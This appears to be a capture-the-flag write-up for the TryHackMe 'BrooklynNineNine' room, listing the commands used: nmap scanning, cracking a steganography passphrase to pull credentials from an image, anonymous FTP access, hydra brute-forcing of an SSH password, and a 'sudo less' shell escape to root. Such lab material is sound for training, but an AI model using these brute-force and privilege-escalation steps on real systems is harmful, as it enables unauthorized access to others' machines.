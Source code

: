 # BrooklynNineNine - solution
- Link: https://tryhackme.com/room/brooklynninenine
- Difficulty: `easy`

## Host recognition
- `cd nmap`
-  `nmap --open <IP> -oG scan`
 -  `extractPorts scan` (custom command) to copy open ports
- `nmap -sCV -p21,22,80 <IP> -oN ports`

## Port 80 - website recognition
- `wget http://<IP>/brooklyn99.jpg` to download the img
- `stegcracker brooklyn99.jpg` to crack the passphrase
- `steghide extract -sf brooklyn99.jpg`
- Extracted credentials, saved them in `/credentials` 

## Port 21 - ftp-anon: anonymous FTP login allowed
- `cd content`
- `ftp <IP>` (name: `anonymous`, password: `<Enter>`)
- Inside the FTP shell:
  - `get note_to_jake.txt` to download the resource
  - `cat note_to_jake.txt` 
  - Found likely users: `amy` `holt` `jake`

## Port 22 - SSH 
- `hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<IP>`
- Cracked `jake`'s SSH password, saved in `/credentials` 
- `ssh jake@10.10.67.99` (password: `<password`)
- Inside the SSH shell:
  - `pwd` (we are into `/jake`)
  - `cd ..` to come back into `/home` folder
  - Found `/amy` `/holt` `/jake` folders
  - `cd holt`
  - `cat user.txt` 
    - Found the `USER FLAG`
  
## Privileges escalation
- Inside the SSH shell:
  - Couldn't access `/root`, so:
  - `find / -perm -4000 2>/dev/null` to find binaries 
  - `sudo -l` to discover which binary the active user may run as superuser
  - Found `/usr/bin/less`
- Checked it on https://gtfobins.github.io and found how to exploit the binary
- Inside the SSH shell:
  - `sudo less /etc/profile`
  - `!/bin/sh`
  - `whoami` to check if I became the root user 
  - `cd /root`
  - `cat root.txt` 
    - Found the `ROOT FLAG`